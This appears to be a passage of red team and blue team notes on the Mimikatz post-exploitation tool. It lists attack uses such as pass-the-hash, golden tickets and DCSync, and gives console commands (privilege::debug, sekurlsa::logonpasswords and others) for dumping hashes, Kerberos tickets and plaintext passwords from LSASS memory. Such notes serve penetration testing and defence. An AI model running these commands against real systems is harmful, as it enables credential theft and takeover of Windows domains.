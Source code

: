 # Mimikatz - Advanced Red Team & Blue Team Notes

## Overview

Mimikatz is a post-exploitation tool written in C by Benjamin Delpy (@gentilkiwi) that exploits Windows authentication mechanisms. It's become the de facto standard for credential extraction and has significantly influenced Windows security improvements.

**Core Capability:** Direct interaction with Windows security subsystems (LSASS, SAM, LSA Secrets, Kerberos, etc.)

---

## When to Use Mimikatz

### Primary Use Cases
- **Credential Harvesting:** Extract plaintext passwords, NTLM hashes, and Kerberos tickets from memory
- **Lateral Movement:** Pass-the-Hash (PtH), Pass-the-Ticket (PtT), Overpass-the-Hash
- **Persistence:** Golden/Silver ticket creation for long-term domain access
- **Privilege Escalation:** Token manipulation and privilege impersonation
- **Post-Exploitation:** Dumping cached credentials, DPAPI secrets, and certificate private keys

### Advanced Scenarios
- **Domain Dominance:** Extracting krbtgt hash for golden ticket attacks
- **Certificate Theft:** Stealing authentication certificates from the certificate store
- **Skeleton Key Attack:** Backdooring domain controllers for persistent access
- **DCSync Attack:** Simulating a domain controller to extract password hashes remotely

---

## Basic Usage & Essential Commands

### Initial Setup
```powershell
# Start mimikatz with elevated privileges (Administrator)
mimikatz.exe

# Essential first command - gains SeDebugPrivilege
mimikatz # privilege::debug

# Verify privileges
mimikatz # token::elevate
```

### Core Credential Dumping
```powershell
# Dump all credentials from LSASS memory
mimikatz # sekurlsa::logonpasswords

# Dump specific authentication packages
mimikatz # sekurlsa::msv        # NTLM hashes
mimikatz # sekurlsa::kerberos   # Kerberos tickets
mimikatz # sekurlsa::wdigest    # WDigest plaintext (if enabled)
mimikatz # sekurlsa::tspkg      # TS/RDP credentials
mimikatz # sekurlsa::livessp    # LiveSSP credentials

# Dump all credential types at once
mimikatz # sekurlsa::logonpasswords full
```

---